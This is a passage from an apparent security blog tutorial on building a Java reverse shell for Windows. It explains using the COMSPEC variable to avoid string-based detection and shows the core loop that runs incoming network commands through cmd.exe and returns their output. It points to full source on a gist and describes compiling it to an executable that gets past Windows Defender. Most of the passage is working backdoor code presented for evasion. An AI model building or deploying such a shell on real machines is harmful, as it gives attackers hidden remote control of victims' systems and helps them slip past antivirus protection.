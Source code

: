 Since our target OS is Windows, we will use the `%COMSPEC` environment variable which simply points to `C:\WINDOWS\system32\cmd.exe` – useful in bypassing string-referenced checks – to execute incoming data from a non-empty buffer:

{% highlight java %}
String inc, comSpec = System.getenv("comSpec") + " /c ";

while(true){
    if((inc = rr.readLine()) != null){
        Process p = Runtime.getRuntime().exec(comSpec + inc);
        Scanner sc = new Scanner(p.getInputStream());
        while (sc.hasNext()) pw.println(sc.nextLine());
        pw.flush();
        sc.close();
    }
}
{% endhighlight %}

We will also use the Path object to send the current working directory before command output for readability and convenience. The full source code is as follows:

<script src="https://gist.github.com/artikrh/fb4b51a99d5c7fb1f0ea4339c76bec39.js"></script>

Compiling this Java program into a Windows Excecutable comprises of convering `.jar` to `.exe` using [various tools](https://stackoverflow.com/questions/2011664/compiling-a-java-program-into-an-executable), however, I will be using the IntelliJ IDE to [directly build a binary artifact](https://www.youtube.com/watch?v=_KHCHiH2RZ0) and run the program with a fully up-to-date Windows Defender:

![Proof of Concept](/assets/images/JavaSockets.png)
